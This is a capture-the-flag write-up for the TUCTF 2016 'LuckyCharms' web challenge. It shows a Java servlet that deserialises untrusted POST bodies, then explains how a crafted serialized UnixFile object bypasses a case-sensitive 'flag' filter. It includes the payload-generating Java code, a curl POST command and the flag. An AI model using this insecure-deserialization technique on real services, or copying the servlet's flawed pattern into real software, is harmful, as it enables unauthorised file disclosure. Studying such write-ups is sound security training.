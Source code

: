 # TUCTF 2016: LuckyCharms

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| TUCTF | LuckyCharms | Web | 150 |

### Description
> Nothing like cereal and coffee to start your day!
>
> http://146.148.10.175:1033/LuckyCharms
> 

## First steps

by visiting http://146.148.10.175:1033/LuckyCharms we can see a hidden link in the html-source:

```html
<html>
<body>
Frosted Lucky Charms,
<br>
They're magically delicious!
<br>
<img src="https://upload.wikimedia.org/wikipedia/en/f/ff/Lucky-Charms-Cereal-Box-Small.jpg">
<!-- <a href="/?look=LuckyCharms.java"></a> -->
</body>
</html>

```

Lets try that URL:  http://146.148.10.175:1033/LuckyCharms?look=LuckyCharms.java


```java

import java.io.*;
import javax.servlet.*;
import javax.servlet.http.*;
import java.nio.file.Path;
import java.nio.file.Paths;

abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}

public class LuckyCharms extends HttpServlet {

  public void init() throws ServletException {}

  public void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
    doPost(request, response);
  }

  public void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      
    response.setContentType("text/html");
    PrintWriter out = response.getWriter();

    OSFile osfile = null;
    try {
      osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
    } catch (Exception e) {
      //Oops, let me help you out there
      osfile = new WindowsFile();
      if (request.getParameter("look") == null) {
        osfile.file = "charms.html";
      } else {
        osfile.file = request.getParameter("look");
      }
    }

    String f = osfile.getFileName().replace("/","").replace("\\","");
    if (f.contains("flag")) {
      //bad hacker!
      out.println("You'll Never Get Me Lucky Charms!");
      return;
    }

    try {
      Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));  
      String content = new String(java.nio.file.Files.readAllBytes(path));
      out.println(content);
     } catch (Exception e) {
        out.println("Nothing to see here");
     }
  }

  public void destroy() {}
}



```

Lets see what the application actually does:

If a GET-request is made, the application accepts a parameter called 'look' (which we just used to disclose the source code). To make sure we can't read any arbitrary file some checks are added:

```java
String f = osfile.getFileName().replace("/","").replace("\\","");
if (f.contains("flag")) {
```

Here we see that first, all occurences of / and \\\\ are removed so we cant traverse to higher directories. Additionally, a contains-method checks if 'flag' is not a substring of the file we want to disclose. 

Now, .contains() is case-sensitive, so if we can get something like FLAG in our filename, it wont match and we can bypass the check. 

```java
class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}
```

If we look at the getFilename() method, however, we see that the string we enter is always lowercase'd by the application.

Luckily for us, a GET-request with the look-param isnt the only way to set the filename. The program also accepts POST-requests.

```java
try {
      osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
    } catch (Exception e) {
```

When a POST-request is made, the application unserializes the raw input stream pushed to the application. Also, next to the WindowsFile-class the server itself uses, there is also a class called UnixFile defined, which does not enforce lower-casing of the filename property! 

```java
class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}
```

## Exploitation
To exploit this vulnerability, we need to craft a serialized binary version of UnixFile, with the 'file' property set to 'FLAG' 

We can easily craft such a file with java

```java
import java.io.*;


abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}


public class Hax {

    public static void main(String[] args) {
	UnixFile f = new UnixFile();
      	f.file = "FLAG";
	try
	{
		FileOutputStream fileOut = new FileOutputStream("/tmp/Hax.bin");
         	ObjectOutputStream out = new ObjectOutputStream(fileOut);
         	out.writeObject(f);
         	out.close();
         	fileOut.close();
         	System.out.printf("Serialized data is saved in /tmp/Hax.bin\n");
       	}catch(IOException i)
      	{
          	i.printStackTrace();
      	}

    }

}
```

By compiling the above script and running it:

```bash
$ javac Hax.java && java Hax
Serialized data is saved in /tmp/Hax.bin
```

We will end up with a binary object in /tmp/Hax.bin

```bash
$file Hax.bin 
Hax.bin: Java serialization data, version 5
```

Finally, if we post this object to the LuckyCharms script on the server:

```bash
$ curl -X POST --data-binary @Hax.bin 'http://146.148.10.175:1033/LuckyCharms'
```

We get the flag

```bash
TUCTF{a_cup_of_joe_keeps_the_hackers_away}
```


